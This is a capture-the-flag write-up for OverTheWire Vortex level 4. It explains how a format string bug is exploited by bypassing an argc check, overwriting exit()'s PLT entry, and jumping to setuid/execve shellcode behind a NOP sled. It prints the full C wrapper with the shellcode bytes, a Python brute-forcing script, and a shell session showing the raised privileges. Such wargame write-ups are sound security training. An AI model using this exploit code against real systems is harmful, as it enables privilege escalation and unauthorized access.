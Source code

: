 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 4"
---
```


![Logo](/assets/images/vortex4.png)

## Context

[This level](http://overthewire.org/wargames/vortex/vortex4.html) looks like a simple 3 lines program, containing a common issue - format string vulnerability:
```c
int main(int argc, char **argv)
{
 if(argc) exit(0);
 printf(argv[3]);
 exit(EXIT_FAILURE);
}
```

## 1. Bypass the check for arguments count
The program exits if the _`argc`_ variable is different than 0. _`argc`_ represents the length of _`argv`_ array, which has on the first position the program name (the name appearing on top and like utilities, for example). So _`argc`_ is always >=1.
But If we know how arguments and environment variables are passed to the main function when executing the binary,  we can bypass the verification and also pass something meaningful to _`printf`_ in _`argv[3]`_ argument.  The stack looks like this:
```
| argc | argv[0] | argv[1] ... |argv[argc-1]| NULL |env[0]|...|env[n]|NULL|
```

Where the first _`NULL`_ indicates the end of the _`argv`_ array, and the second one the end of the environment variables array. So if we pass _`NULL`_ as the _`argv`_ array, when the program tries to access _`argv[3]`_, it will in fact access _`env[2]`_, because the stack would look like this (_`argv[0]`_ points to the _`NULL`_ byte):
```
| 0 | NULL | env[0] | env[1] | env[2] | ...
```

In Python I couldn't call one of the _`exec`_ functions with _`argv`_ set to _`NULL`_, so I've used another method:
```c
char exe[] = "/vortex/vortex4";
 
char* argv[] = { NULL }; 
char* env[] = {"env0", "env1", "TEST", NULL};
 
execve(exe, argv, env);
```

## 2.  Pass the format string attack into an environment variable
We have to find out the approximate location of the environment variables in the memory. The Vortex labs machine has ASLR disabled. We can test with and without ASLR to see the variation of the environment variables' address, using the following simple program:
```c
/* 
 * Test program to find the location of envirnment variables on stack.
 *  - test with/without ASLR
 * 
 * To disable ASLR: 
 * echo 0 > /proc/sys/kernel/randomize_va_space
 * 
 * To enable ASLR:
 * echo 2 > /proc/sys/kernel/randomize_va_space
 * 
 */
 
#include <stdio .h>
 
extern char **environ;
 
/* Return the current stack pointer */
unsigned long find_esp(void){
 // Copy stack pointer into EAX
    __asm__("mov %esp, %eax");
     
    // Return value of the function is in EAX
}
 
int  main() {
 char **env = NULL;
  
    for (env = environ; *env; ++env)
        printf("%p:\t%s\n", env, *env);
 
    unsigned long p = find_esp(); 
    printf ("Current stack pointer: Ox%lx\n" , p) ;
         
    return 0;
}
```

## 3. Redirect program flow
We decide an address to overwrite to change the flow of the program. We can use the same trick as in the previous level: replace the address of _`exit()`_ function in _`.plt`_, which is called at the end of the program. We find it by searching relocations sections in the binary:
```bash
vortex4@melissa:/vortex$ readelf -r ./vortex4
[..]
Relocation section '.rel.plt' at offset 0x294 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a004  00000207 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a008  00000307 R_386_JUMP_SLOT   00000000   printf
0804a00c  00000407 R_386_JUMP_SLOT   00000000   exit
```

## 4.Shellcode
We'll place a shellcode (I've used the same 32 bytes I've used in the previous level, _`setuid + execve`_) in  the environment variable, with a big NOP sled before (I've used 500 bytes). In the format string before, try to overwrite the address we found above, _`0x0804a00c`_ (which I've actually replaced in 4 bytes: _`0x0804a00c`_, _`0x0804a00d`_, _`0x0804a00e`_, _`0x0804a00f`_). 

This was the hardest part. I've made a Python wrapper over the C wrapper containing the _`execve`_ instruction, that passes and brute-forces different format strings.

A good exercise to test the vulnerability is to first try to read memory (using _`%x`_ or _`%s`_ instead of _`%n`_ for writing), to find the actual position of the format string on the stack. I actually found that I needed 106 bytes to get to the format string on the stack. A trick that can be used here: direct parameter access in printf (using **$**), detailed in the [Single Unix Specification ](http://pubs.opengroup.org/onlinepubs/7908799/xsh/fprintf.html). For me, I could access the format string with the following parameter:
```bash
fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
```
I've adjusted it with fillers ('.'), and tuned the offset until I reached the correct one, 106. The Python brute-forcing script:
```python
import subprocess
 
''' 
Script to pass the format string and address to be overwritten to
the vortex 4 wrapper binary
'''
 
# 4 bytes to be modified (address of exit() in .plt - 0x0804a00c)
addr =  "\x0c\xa0\x04\x08" + \
        "\x0d\xa0\x04\x08" + \
        "\x0e\xa0\x04\x08" + \
        "\x0f\xa0\x04\x08"
 
# Read it, after many trial and errors
#fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
 
for i in range(1, 255):
        for j in range(1, 255):
                fmt = addr + "...." + \
                "%106$n%5$0" + str(i) + "d" + \
                "%107$n%5$0" + str(j) + "d" + \
                "%108$n" + \
                "%109$n"
                print "%d %d fmt: %s: " % (i, j, fmt)
                p = subprocess.Popen(['/tmp/myl4', fmt])
                 
                p.wait()
                # Ctrl-D to continue
```

And the C wrapper with _`execve`_ over vortex4 binary:
```c
/*
 * Wrapper over vortex 4 binary: 
 *  - byapss first argc check
 *  - pass shellcode in environment variable
 *  - receive format string from python wrapper (.. easier) 
 */
 
#include <stdio .h>
#include <string .h>
 
/* 32 bytes setuid(0) + execve("/bin/sh",["/bin/sh",NULL]); */
char shellcode[] = "\x6a\x17\x58\x31\xdb\xcd\x80\x31\xd2\x6a\x0b\x58\x52"
        "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
        "\x89\xe1\xcd\x80";
 
char padding[500];
char NOP = '\x90';
int nops = 500;
 
int main(int argc, char **args) {
 char exe[] = "/vortex/vortex4";
 char sh[600] = {0};
  
 // Fill with lots of NOPs to make sure we reach the shellcode
 memset(padding, NOP, nops);
  
 memcpy(sh, padding, nops);
 memcpy(sh+nops, shellcode, strlen(shellcode));
  
 // argc wil be 0, because argv[0] is not set
 char* argv[] = { NULL }; 
 char* env[] = {"env0", "env1", args[1], sh, NULL};
 
 execve(exe, argv, env);
  
 return 0;
}
```

## 5. Putting pieces together: 
```bash
vortex4@melissa:/tmp$ vim myl4.c
vortex4@melissa:/tmp$ vim myl4.py
vortex4@melissa:/tmp$ gcc -o myl4 myl4.c
vortex4@melissa:/tmp$ python myl4.py
[..]
202 33 fmt: 
���....%106$n%5$0202d%107$n%5$033d%108$n%109$n: 
$ id
uid=5004(vortex4) gid=5004(vortex4) euid=5005(vortex5) groups=5005(vortex5),5004(vortex4)
$ cat /etc/vortex_pass/vortex5
*****
```
